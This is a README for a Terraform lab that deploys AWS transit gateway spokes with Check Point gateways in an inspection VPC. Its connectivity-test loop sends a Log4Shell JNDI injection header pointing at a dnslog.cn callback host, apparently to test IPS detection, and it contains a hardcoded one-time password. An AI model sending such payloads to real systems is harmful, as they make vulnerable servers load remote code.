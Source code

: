 # AWS lab with App spokes, TGW and CHKP VPC

Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

tf init

# bring credentials - AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

tf plan -target module.env

# step by step

# network environment
tf apply -auto-approve -target module.env

# workloads in spokes accessible using SSM
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
tf apply -auto-approve -target module.cgns

# full deployment
tf apply -auto-approve

# CP management console
ssh admin@34.247.143.157 -i C:\Users\mkoldov\.ssh\azureshell.key


# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

watch -d api status

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!
